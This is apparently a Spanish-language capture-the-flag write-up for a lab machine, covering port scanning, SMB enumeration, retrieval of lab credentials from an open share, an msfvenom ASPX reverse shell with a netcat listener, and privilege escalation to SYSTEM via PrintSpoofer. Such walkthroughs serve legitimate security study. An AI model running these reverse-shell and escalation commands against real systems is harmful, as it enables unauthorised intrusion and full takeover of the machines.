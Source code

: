 # Relevant

## Nmap

![alt text](image.png)
![alt text](image-1.png)

### Nmap SMB
![alt text](image-5.png)

## Threader3000 
Permite ver los puertos abiertos

    threader3000

![alt text](image-10.png)

## Fuzzing

    gobuster dir -u http://10.10.48.117 -w Desktop/common.txt -x php 

![alt text](image-2.png)

## Enum4linux

![alt text](image-4.png)

## SMB

    smbmap -H 10.10.48.117

![alt text](image-3.png)

    smbclient -L 10.10.48.117

![alt text](image-6.png)

Entramos en el usuario y descargamos el archivo ``passwords.txt``

    smbclient //10.10.48.117/nt4wrksv -N

![alt text](image-7.png)

Contenido del archivo

![alt text](image-8.png)

Decodificamos usando CyberChef
![alt text](image-9.png)

    Bob - !P@$$W0rD!123
    Bill - Juw4nnaM4n420696969!$$$

Tenemos acceso web al archivo subido en SMB
![alt text](image-11.png)

Creamos una aspx reverse shell, para subirla el servidor

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.67.209 LPORT=53 -f aspx -o pwn.aspx

![alt text](image-12.png)

Subimos el archivo

![alt text](image-13.png)

Nos conectamos a la reverse shell

    curl http://10.10.179.154:49663/nt4wrksv/pwn.aspx

    nc -nvlp 53

![alt text](image-15.png)
![alt text](image-14.png)

Buscamos el archivo ``user.txt``

![alt text](image-16.png)

Vemos nuestros privilegios
![alt text](image-17.png)

Encontramos ``SeImpersonatePrivilege``, existe un exploit que nos permite explotar esta vulnerabilidad

Clonamos el siguiente repostirio

    git cone https://github.com/dievus/printspoofer.git

Subimos el ``.exe`` al servidor samba
![alt text](image-18.png)

Lo ejecutamos y ya seremos ``nt authority\system``
![alt text](image-19.png)

